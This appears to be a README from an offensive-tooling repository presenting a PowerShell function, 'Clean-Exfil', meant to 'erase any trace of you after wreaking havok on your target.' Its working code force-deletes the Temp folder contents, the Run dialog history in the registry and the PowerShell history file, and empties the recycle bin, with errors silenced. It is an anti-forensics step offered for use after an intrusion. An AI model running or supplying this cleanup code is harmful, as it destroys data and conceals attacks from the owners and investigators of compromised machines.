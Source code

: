 ## Description

This function is to erase any trace of you after wreaking havok on your target 

## The Function

### [Clean-Exfil] 

You will Delete contents of Temp folder, Delete run box history, Delete powershell history, and Deletes contents of recycle bin

```PowerShell
function Clean-Exfil { 

# empty temp folder
rm $env:TEMP\* -r -Force -ErrorAction SilentlyContinue

# delete run box history
reg delete HKEY_CURRENT_USER\Software\Microsoft\Windows\CurrentVersion\Explorer\RunMRU /va /f

# Delete powershell history
Remove-Item (Get-PSreadlineOption).HistorySavePath

# Empty recycle bin
Clear-RecycleBin -Force -ErrorAction SilentlyContinue

}
```